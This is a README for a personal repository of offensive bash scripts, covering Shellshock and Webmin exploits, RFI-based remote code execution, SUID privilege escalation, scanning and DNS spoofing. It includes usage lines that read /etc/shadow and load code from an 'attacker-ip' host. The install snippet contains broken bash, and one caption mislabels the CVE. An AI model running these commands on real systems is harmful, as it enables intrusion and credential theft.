 # Bash
Collection of bash scripts I wrote to make my life easier or test myself that you may find useful. The help switch defined for these scripts is written with the assumption these exist in a PATH environmnet variable. Typically commands such as these should be placed in /usr/local/bin. This is considered best practice for Linux.Most of these tools will be useful to Red Teamers

## ADD COMMANDS TO /usr/local/bin
Enter the below commands to download this repo, make the .sh files executable and place the .sh executable files into your /usr/local/bin so you can use for example "getip" instead of ./getip.sh to execute the commands.
```sh
git clone https://github.com/tobor88/Bash
cd Bash
sudo chmod u+x *.sh
$files=$(ls | grep ".sh")
for f in $files; do cp "$f" /usr/local/bin/"${f%.sh}"; done
```

#### BASH EXPLOITS
- __CVE-2014-6271.sh__ This exploit is used to execute commands on a remote server vulnerable to the CVE-2014-6271 ShellShock vulnerability. It creates a webshell at /var/www/html/simple.php and uses curl to simulate a shell like session. Currently only able to issue one word commads. I plan adding more functionality in the future.
![ShellShock CVE-2015-6271](https://raw.githubusercontent.com/tobor88/Bash/master/shellshock.png)

- __CVE-2006-3392.sh__ This exploit is used to perform an unauthenticated remote file disclosure on Webmin version <1.29x.
```bash
./CVE-2006-3392.sh 10.11.1.141 10000 http /etc/shadow
```
![CVE-2006-3392](https://raw.githubusercontent.com/tobor88/Bash/master/cve20063392.png)

- __rfi-rce.sh__ This is a command that can be used to simplify RCE through a remote file inclusion vulnerability by exploiting it in a shell like fashion.
```bash
rfi-rce -f /var/www/html/evil.txt -u "http://target-ip/section.php?page=http://attacker-ip/evil.txt"
```
![rfi-rce.sh](https://raw.githubusercontent.com/tobor88/Bash/master/rfi-rce.png)

#### BASH COMMANDS
- __readid.sh__ This is complete. (Disaplys the /etc/passwd, /etc/shadow, or /etc/group files into an easy to read format)

![readid.sh results](https://raw.githubusercontent.com/tobor88/Bash/master/readid_img.png)


- __getip.sh__ I view this as done. (Restrieves and displays the public and private IP addresses on a computer)

![getip.sh results](https://raw.githubusercontent.com/tobor88/Bash/master/getip_img.png)


- __pingsweep.sh__ This works best when fping is installed on your Linux distro. If fping is not installed it will failover to using the ping command instead. The timeout for ping is set to 1 second so if you are using this with proxychains you may need to mess around with this setting.

![pingsweep.sh results](https://raw.githubusercontent.com/tobor88/Bash/master/pingsweep_img.png)


- __portscan.sh__ In the future I will add more input validation and error handling. (Custom port scanner. Check all ports, one port, or a custom range of ports.)

![portscan.sh results](https://raw.githubusercontent.com/tobor88/Bash/master/portscan_img.png)


- __massnmp.sh__ Script I built to quickly obtain SNMP information from a defined subnet range. This was written for Kali so it uses OneSixtyOne and SNMP-Check. If these are not already installed they will need to be for the script to work. This script will build 3 files in your /tmp directory which means on next restart they will be deleted. Enumerated SNMP info on different targets will be placed into a txt file in the $PWD the script was executed from.

![massnmp.sh results](https://raw.githubusercontent.com/tobor88/Bash/master/massnmp.png)


- __absolutepathit.sh__ This command is used to convert all relative commands in a script to absolute path commands. To play this one safe I have it create a copy of the script you wrote and places it in a file called /tmp/absolutepathit_tmpinfo. This file has all comments removed from it and replaces any commands that have a result value obtained from the command $(which <cmd>) with the absolute path value result for that command. 
 Copy and paste the results into your script to ensure you dont lost your comments and to ensure any possible command words you have in echo quotations are what you want. 
 This is not perfect yet as you can see in the image below it misses curl.
 
 ![absolutepathit.sh results](https://raw.githubusercontent.com/tobor88/Bash/master/absolutepathit_img.png) 

 To deal with that issue I added line 40 which will obtain commands that are located next to a ( character. This does not misinterpret _print_ in the __awk__ command. 
 
 ![absolutepathit.sh results improvement](https://raw.githubusercontent.com/tobor88/Bash/master/absolutepathit_img2.png)
 
 The issue I noticed came from another script came from a website in the bash script. This is because the slash is viewed as an escape character. Any contributions are welcome. This is still a work in progress.

- __enablespoofing.sh__ This is a simple script meant to take care of the tasks neccessary to allow dns spoofing on Kali Linux. It enables port forwarding on ipv4 and allows DNS traffic.

- __dnslookup.sh__ This command is meant to perform a mas dns lookup based on an IPv4 address range. Returns output in the below format
```sh
--------------------------------------------
| IP Address              |     FQDN's     |
--------------------------------------------
2.2.0.10.in-addr.arpa DC.osbornepro.com.
4.2.0.10.in-addr.arpa DEV.osbornepro.com.
```

- __enum_dns_servers.sh__ This command is meant to return the DNS servers in a domain. This is most useful when having a local domains DNS server set in your /etc/resolv.conf file.
```sh
---------------
| DNS Servers |
---------------
dns1.osbornepro.com.
dns2.osbornepro.com.
```
- __rcp-suid-privesc.sh__ This can be used to exploit the SUID bit on rcp. This only works on certain Operating Systems. Successfully tested on Red Hat 6.2. THere is a perl version of this script on exploitdb.

- __suidcheck.sh__ Needs a lot of work (Checks for exploitable suid bits and attempts to exploit them if they exist. Also returns cron job scripts)

